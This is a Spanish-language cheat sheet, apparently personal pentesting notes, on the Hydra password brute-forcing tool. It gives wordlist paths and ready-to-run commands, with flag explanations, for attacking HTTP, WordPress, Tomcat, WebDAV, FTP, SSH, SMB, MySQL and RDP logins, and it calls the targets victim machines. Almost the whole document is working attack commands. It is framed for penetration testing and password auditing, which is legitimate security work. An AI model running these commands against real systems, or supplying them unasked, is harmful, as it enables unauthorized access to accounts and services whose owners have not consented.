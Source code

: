 # Hydra 

Tags: #Hydra 

Es una herramienta de prueba de penetración que se utiliza para realizar ataques de fuerza bruta, por así decirlo, en servicios de autenticación remotos. Esta herramientas nos ayuda a poder encontrar passwd mediante ataques furtivos. 

- Soporte de múltiples protocolos: Hydra es compatible con una amplia gama de protocolos de autenticación incluyendo: SSH, Telnet, FTP, HTTP, POP3, SMB, etc...
* Fuerza bruta avanzada: Hydra es capas de realizar ataques de fuerza bruta avanzados, incluyendo ataques de diccionario y ataques basados en patrones. 
	* Podemos usar los diccionarios que ya viene en Parrot o Kali Linux (rockyou.txt)
* Modos de operación flexibles: Hydra admite diferentes modos de operación, incluyendo modo de ataque directo, modo de ataque de diccionario y modo de ataque híbrido.
* Capacidad de paralelización: Hydra es capas de realizar múltiples intentos de autenticación simultáneamente, lo que mejora la velocidad y la eficiencia del ataque. 

- Casos de uso:
	- Pruebas de penetración 
	- Auditoria de passwd
	- Recuperación de passwd

```powershell 
# Directorios 'passwords'
❯ /usr/share/wordlists/rockyou.txt
❯ /usr/share/Seclists/Passwords/xato-net-10-million-password-10000.txt
❯ /usr/share/Seclists/Passwords/months.txt
❯ /usr/share/Seclists/Passwords/seasons.txt
❯ /usr/share/metasploit-framework/data/wordlists/unix-passwords.txt
❯ /usr/share/wordlists/metasploit/unix-passwords.txt
❯ /usr/share/wordlists/metasploit/common_passwords.txt

# Directorios 'Users'
❯ /usr/share/Seclists/Usernames/xato-net-10-million-usernames.txt
❯ /usr/share/metasploit-framework/data/wordlists/unix_users.txt
❯ /usr/share/wordlists/metasploit/unix_users.txt
❯ /usr/share/wordlists/metasploit/common_users.txt
```

## Fuerza bruta a una autenticación digital 

```bash 
❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> http-get /DIR/ 

	# IP = Direccion IP del servidor que contiene la autenticacion que solicita user/passwd para acceder a la pagina
	# DIR = Ruta que contiene la autenticacion 
```

## Fuerza bruta a un CMS

```bash 
❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "/my_weblog/admin.php:username=^USER^&password=^PASS^:Incorrect" -t 64 -F 

	# El formulario debe de cumplir con tres variables
	# 1ra = Ruta desde la raiz hasta el admin.php
	# 2do = Podemos obtener las variables de username y password capturando el trafico con 'Burpsuite' ya que ahi es donde las variables de usuario y variables del diccionario van a ser sustituidas 
	# 3ro = Colocar el mensaje de error, lo podemos encontrar en el codigo del panel del login 'Ctrl + u'
	# IP = La direccion IP de la maquina victima sin el protocolo 'http o https'
	# F = Cuando hydra encuentre unas credenciales validas detendra el proceso y seguira con otro usuario en caso de tener mas 
```

## Hydra fuerza bruta WordPress

```python
# Para identificar los usuarios 
❯ hydra -L users.txt -p something <IP> http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid username'
❯ hydra -L users.txt -p something <IP> http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'  # Otra forma de hacerlo
	# p = Colocar una passwd random, porque lo unico que se busca es el usuario


# Esto se usa para saber la password del usuario que se ha encontrado 'admin'
❯ hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix-passwords.txt <IP> http-post-form '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^:S=302' 
❯ hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix-passwords.txt <IP> http-post-form '/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect' -t 15 
	# t = Lanzar las tareas en paralelo al mismo tiempo 


# Si al momento de hacer login en la pagina muestra un mensaje de error, seria de esta manera en donde se colocará el mensaje de error en la sentencia. 
❯ hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix-passwords.txt <IP> http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!"


# Fuerza bruta a WordPress (Todo lo anterior se obtiene de la página web en 'form action=/login.php') y hay que colocar todas la etiquetas 

	# l (ele) = Usuario de login
	# P = Ruta del diccionario
	# log y pwd = Se encuentra en el apartado de la pagina web 'Ctrl + u' 
	# S = Redireccionamiento con el codigo 302
	# F = Error que muestra el panel de autenticacion, por si no sirve con el 'S'
```

## Hydra fuerza bruta WebDAV

```python 
❯ hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt ❮IP❯ http-get /webdav/

	# webdav = Directorio de autenticacion 
	# L = Indicas un archivo que disponga de usuarios para login
	# P = Ruta del diccionario o 'archivo que contiene passwds'
```

## Tomcat 

```bash 
❯ hydra -l tomcat -P /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt <IP> -s 8080 http-get /manager/html/ 

	# s = Indicar el puerto 8080
	# L = /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt
	# IP = Direccion IP del servidor que contiene la autenticacion que solicita user/passwd para acceder a la pagina
	# http-get = Ruta que contiene el panel de autenticacion '/manager/html/ o /host-manager/html' 
```

## Hydra fuerza bruta FTP

```ruby
❯ hydra -L Usernames.txt -P Passwords.txt ❮IP❯ ftp   # Fuerza bruta al puerto 21 'FTP'

❯ hydra -l omar -P /usr/share/wordlists/rockyou.txt ftp://❮IP❯ -t 15 

❯ hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ❮IP❯ ftp -t 4 -I

	# l (ele) = Usuario valido
	# L = Archivo de texto que contiene usuarios 
	# P = Ruta del diccionario de passwords
	# t = Lanzar tareas en paralelo al mismo tiempo
	# I = Saltar la espera 
```

## Hydra fuerza bruta SSH

```bash 
# Una forma de saber los usuarios dentro de la maquina por SSH es:

1. Mirando el '/etc/passwd'
2. Mirando el directorio '/home'
```

```python
❯ hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ssh://❮IP❯ -t      # Fuerza bruta al puerto 22 'SSH'

	# ssh = Puerto al que vamos a atacar 22
	# IP = Direccion de la maquina victima
	# P = Ruta del diccionario o 'archivo que contiene passwds'
	# L = Ruta del diccionario o 'archivo que contiene users' para login
	# t = Lanzar tareas en paralelo al mismo tiempo

❯ hydra -l root -P /usr/share/wordlists/rockyou.txt ❮IP❯ ssh
❯ hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://❮IP❯ -t 15 -V -s 2222

	# ssh = Puerto al que vamos a atacar 22
	# IP = Direccion de la maquina victima
	# P = Ruta del diccionario o 'archivo que contiene passwds'
	# l (ele) = Usuario login que en este caso es  'root'
	# t = Lanzar tareas en paralelo al mismo tiempo
	# V = Verbosity
	# s = Port y es el puerto al que nos queremos conectar 
```

## Hydra fuerza bruta SMB / SAMBA

```python 
# Si esta  la version 'SMBv1', no podremos usar esta herramienta para Fuerza Bruta, solo con Metasploit

❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt smb://<IP>        # Fuerza bruta en el servidor SMB
❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> smb

❯ hydra -L user.list -P password.list smb://<IP> 

	# L = Ruta o archivo que contiene los usuarios para login
	# P = Ruta o archivo que contiene las passwd
	# l = Un usuario en especifico para login 
```

## Hydra fuerza bruta MYSQL

```python
❯ hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <IP> mysql
❯ hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt mysql://<IP>

	# P = Ruta o archivo que contiene las passwd
	# l = Un usuario en especifico para login 
```

## Hydra fuerza bruta RDP

```python 
# Fuerza bruta en RDP
❯ hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://<IP> -s 3333           

	# L = Ruta o archivo que contiene los usuarios para login 
	# P = Ruta o archivo que contiene las passwd
	# s = Especificas el puerto, si no lo haces Hydra asumira que es el puerto 3389
```



